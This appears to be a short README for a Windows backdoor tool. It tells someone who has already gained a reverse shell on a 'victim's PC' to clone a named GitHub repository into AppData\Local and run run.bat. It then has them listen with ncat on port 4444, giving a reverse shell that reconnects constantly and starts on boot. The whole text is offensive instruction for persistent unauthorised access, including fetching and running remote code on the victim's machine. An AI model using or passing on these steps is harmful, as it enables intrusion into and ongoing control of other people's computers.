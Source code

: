Once you reverse shell into victims computer, CD into the appdatta, local file and do git clone The link to this gitfile and run Run.bat

you may need to change the Ip and port in (ncat.bat)

what this does is creates an easy reverse shell that is always requesting a connection and is also enabled on startup 


steps:

open powershell

Reverse Shell into victims PC

CD into AppData

CD into local

type in git clone https://github.com/1DollarCoin/yess.git

CD into yess

type start run.bat

and in a new terminal run (ncat -lvnp 4444) or change to what ever port you have selected, (you will have to change the ip in ncat.bat, the ports also have to match)

and you should now have a permanent reverse shell

